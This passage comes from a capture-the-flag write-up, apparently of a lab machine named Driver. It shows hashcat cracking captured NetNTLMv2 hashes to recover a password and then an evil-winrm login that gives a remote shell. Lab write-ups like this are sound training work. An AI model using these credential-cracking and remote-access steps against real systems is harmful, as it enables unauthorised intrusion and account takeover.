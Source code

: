 next I find the correct mode for `hashcat` to crack hashes of this type

```bash
$ hashcat --example-hashes | grep -i 'netntlm' -A 2 -B3

MODE: 5500
TYPE: NetNTLMv1 / NetNTLMv1+ESS
HASH: ::5V4T:ada06359242920a500000000000000000000000000000000:0556d5297b5daa70eaffde82ef99293a3f3bb59b7c9704ea:9c23f6c094853920
PASS: hashcat

MODE: 5600
TYPE: NetNTLMv2
HASH: 0UL5G37JOI0SX::6VB1IS0KA74:ebe1afa18b7fbfa6:aab8bf8675658dd2a939458a1077ba08:010100000000000031c8aa092510945398b9f7b7dde1a9fb00000000f7876f2b04b700
PASS: hashcat
```

`MODE: 5600` is what we are looking for. Now to perform the cracking. I run `hashcat` with the following command

```bash
hashcat -m 5600 hashes /usr/share/wordlists/rockyou.txt -O
```

as suspected all hashes crack to give the same password
```
...

TONY::DRIVER:a299562738329bed:04e46b430825f98a443bc46fc7b38be0:0101000000000000551b091b0ccdd7015c18559afdcd707c00000000020000000000000000000000:liltony
TONY::DRIVER:09fd3ab9928b6acd:3f20c4e8a6731012a625400020d45be3:01010000000000000dd19d1a0ccdd701ba0b6534a45a82a200000000020000000000000000000000:liltony
TONY::DRIVER:01e91b545ecd0bb1:8314e37ee427af5ac1ff9ed72d662e7f:01010000000000001295c11a0ccdd701a12c741f24092e9300000000020000000000000000000000:liltony
TONY::DRIVER:596a4a8e87c4306c:90a4a7e2669ae893f1694f7fbd7e7817:0101000000000000974a561a0ccdd701e25b0e80e5202cfd00000000020000000000000000000000:liltony
TONY::DRIVER:9bc7f66784607340:18e7074468f619823498eff989ed9ec9:0101000000000000e40d7a1a0ccdd7013bce054cab537f9900000000020000000000000000000000:liltony
TONY::DRIVER:cdb2155e0dd1ca60:26e32d0f2272829a2ce73131152fd0c8:0101000000000000b1bae71a0ccdd701732dce98a74fe65400000000020000000000000000000000:liltony

...

```

now we have credentials `tony:liltony`

my first instinct is to try WinRM. I use Evil-WinRM with the following command

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```

and we get a shell as tony!

